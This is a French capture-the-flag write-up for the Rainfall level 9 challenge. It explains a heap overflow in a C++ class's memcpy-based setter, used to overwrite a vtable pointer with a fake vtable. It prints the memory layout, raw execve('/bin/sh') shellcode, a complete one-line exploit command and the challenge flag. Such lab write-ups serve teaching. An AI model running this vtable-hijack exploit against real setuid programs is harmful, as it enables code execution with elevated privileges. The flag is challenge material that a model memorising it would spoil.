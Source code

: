 # Rainfall - Niveau 9

## Objectif

Exploiter une vulnérabilité de type heap overflow dans un programme C++ utilisant des objets et des tables virtuelles (vtable), afin d'exécuter du shellcode et obtenir le flag.

## Structure du Programme

Le programme crée deux objets de classe `N` :

```cpp
N *obj1 = new N(5);
N *obj2 = new N(6);
```

Structure en mémoire de chaque objet `N` :

* Offset `0x00` : Pointeur vers la vtable (table des méthodes virtuelles)
* Offset `0x04` : Buffer de données (104 bytes)
* Offset `0x68` : Valeur entière (5 ou 6)

## Vulnérabilité

La fonction `N::setAnnotation()` utilise `memcpy()` sans vérifier la taille :

```cpp
void N::setAnnotation(N *this, char *param_1) {
    size_t __n = strlen(param_1);
    memcpy(this + 4, param_1, __n);
}
```

Cette copie sans contrôle permet un heap overflow, écrasant des pointeurs adjacents (notamment la vtable).

## Détail précis de la payload

La payload exploitée est :

```bash
"\x10\xa0\x04\x08" + shellcode + "A" * 76 + "\x0c\xa0\x04\x08"
```

Décomposons précisément :

* **"\x10\xa0\x04\x08"** : Première entrée de notre fausse vtable (adresse du début du shellcode dans le buffer).
* **Shellcode (28 bytes)** : Lance un shell (`execve("/bin/sh", NULL, NULL)`).
* **"A" \* 76** : Padding pour remplir le buffer jusqu’au pointeur vtable.
* **"\x0c\xa0\x04\x08"** : Adresse de notre fausse vtable, écrasant le pointeur vtable original.

## État précis de la mémoire après l'overflow

* Objet 1 (`obj1`) :

  * `0x0804a008`: \[Pointeur vtable original]
  * `0x0804a00c`: \[0x0804a010] ← Position où on écrit la fausse vtable
  * `0x0804a010`: \[Shellcode] ← Code malveillant
  * `0x0804a02c`: \[AAAAA...] Padding

* Objet 2 (`obj2`) :

  * `0x0804a074`: \[0x0804a00c] ← Pointeur vtable écrasé, pointe vers fausse vtable
  * `0x0804a078`: \[Buffer obj2]

## Mécanisme détaillé de l'exploitation

1. **Overflow du buffer** :

   * La payload dépasse les 104 bytes du buffer.
   * Écrase le pointeur vtable de `obj2` par `0x0804a00c` (notre fausse vtable).

2. **Mécanisme vtable** :

   * Lors d'un appel de méthode virtuelle (`call *%edx`), le programme lit le pointeur vtable (0x0804a00c), puis la première entrée (0x0804a010) et exécute le shellcode.

## Pourquoi une fausse vtable ?

* **Double indirection** :

  * `this` → pointeur vtable (0x0804a00c) → entrée vtable (0x0804a010) → shellcode.

Si le pointeur vtable pointait directement vers le shellcode, le programme lirait les premières instructions du shellcode comme une adresse, ce qui provoquerait un crash. En créant une fausse vtable, on contrôle parfaitement le flux d’exécution.

## Pourquoi l’exploit fonctionne

* Aucune protection moderne (ASLR, NX, stack canaries).
* Heap exécutable permettant l'exécution directe du shellcode.
* Contrôle complet du flux d’exécution via vtable falsifiée.
* Privilèges élevés du binaire (bit SUID).

## Exploit complet

```bash
./level9 $(python -c 'print("\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\x04\x08")')
```

## Résultat final (flag)

```
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

## Conclusion

Ce niveau présente une exploitation très précise impliquant la manipulation d'une vtable C++, démontrant l’importance cruciale de contrôler les tailles lors de la gestion de la mémoire dynamique. L'exploitation réussie conduit à l’exécution de code arbitraire avec des privilèges élevés, révélant ainsi le flag.
